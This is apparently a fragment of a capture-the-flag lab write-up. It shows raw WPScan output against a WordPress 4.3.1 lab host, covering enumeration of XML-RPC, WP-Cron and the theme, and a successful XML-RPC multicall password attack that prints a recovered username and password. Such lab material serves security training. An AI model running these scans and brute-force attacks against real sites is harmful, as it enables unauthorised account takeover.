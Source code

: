 ```(wp scan)

	[+] http://10.10.108.126/robots.txt
	 | Found By: Robots Txt (Aggressive Detection)
	 | Confidence: 100%

	[+] XML-RPC seems to be enabled: http://10.10.108.126/xmlrpc.php
	 | Found By: Direct Access (Aggressive Detection)
	 | Confidence: 100%
	 | References:
	 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
	 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
	 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
	 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
	 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

	[+] The external WP-Cron seems to be enabled: http://10.10.108.126/wp-cron.php
	 | Found By: Direct Access (Aggressive Detection)
	 | Confidence: 60%
	 | References:
	 |  - https://www.iplocation.net/defend-wordpress-from-ddos
	 |  - https://github.com/wpscanteam/wpscan/issues/1299

	[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
	 | Found By: Emoji Settings (Passive Detection)
	 |  - http://10.10.108.126/bcd5448.html, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.3.1'
	 | Confirmed By: Meta Generator (Passive Detection)
	 |  - http://10.10.108.126/bcd5448.html, Match: 'WordPress 4.3.1'

	[+] WordPress theme in use: twentyfifteen
	 | Location: http://10.10.108.126/wp-content/themes/twentyfifteen/
	 | Last Updated: 2020-03-31T00:00:00.000Z
	 | Readme: http://10.10.108.126/wp-content/themes/twentyfifteen/readme.txt
	 | [!] The version is out of date, the latest version is 2.6
	 | Style URL: http://10.10.108.126/wp-content/themes/twentyfifteen/style.css?ver=4.3.1
	 | Style Name: Twenty Fifteen
	 | Style URI: https://wordpress.org/themes/twentyfifteen/
	 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
	 | Author: the WordPress team
	 | Author URI: https://wordpress.org/
	 |
	 | Found By: Css Style In 404 Page (Passive Detection)
	 |
	 | Version: 1.3 (80% confidence)
	 | Found By: Style (Passive Detection)
	 |  - http://10.10.108.126/wp-content/themes/twentyfifteen/style.css?ver=4.3.1, Match: 'Version: 1.3'

	[+] Enumerating All Plugins (via Passive Methods)

	[i] No plugins Found.

	[+] Enumerating Config Backups (via Passive and Aggressive Methods)
	 Checking Config Backups - Time: 00:00:01 <=========================================================================> (21 / 21) 100.00% Time: 00:00:01

	[i] No Config Backups Found.

	[+] Performing password attack on Xmlrpc Multicall against 1 user/s
	[SUCCESS] - 
	elliot ER28-0652                                                                                                                          
```